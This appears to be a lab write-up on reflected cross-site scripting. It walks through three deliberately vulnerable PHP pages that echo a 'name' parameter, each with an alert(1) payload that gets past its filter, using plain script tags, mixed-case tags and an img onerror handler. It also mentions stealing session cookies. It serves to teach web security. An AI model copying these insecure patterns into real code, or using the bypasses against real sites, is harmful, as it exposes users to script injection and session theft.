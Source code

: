 # Vulnerable Code 1
This code will get a user input with "name" parameter and reflect result to user. 

```php

<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?>
```

## Abuse

Since there is no input sanitizing we can add javascript code in our request and execute on client browser. To weponize it we can sent url to a user and redirect their session cookies or execute malicious javascript code on their browser. For simple demonstration we will make it pop-up a message

## Payload

```php
<script>alert(1)</script>
```

## Result

```php
<pre>Hello <script>alert(1)</script></pre>
```

# Vulnerable Code 2
This code will get a user input with "name" parameter and reflect result to user. 

```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```


## Abuse

There is filtering unlike code-1 but mechanism is not secure. The problem here, any user input will be controlled and if there is "\<script>" inside of it, code will delete it. The issue here javascript can be executed with capital and lower case also so it is not case sensitive. Since code filters only "\<script>" with lower characters, we can make it like "\<ScRipT" and bypass filtering. 

## Payload

```php
<ScRipT>alert(1)</ScRipT>
```


## Result

# Vulnerable Code 3

This code will get a user input with "name" parameter and reflect result to user. 

```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
```

## Abuse

In this code, unlike code-2, filtering is NOT case sensitive, "preg_replace" function will filter any given user input that contains "script". We can still execute other javascript command without "\<script>" tag. To abuse this, we will define an image tag and set source to an unknown location and force it get error. When error occurs we will make it to run our own javascript code

## Payload

```php
<IMG SRC=/ onerror="alert(1)"></img>
```

## Result

```php
<pre>Hello <img src="/" onerror="alert(1)"></pre>
```
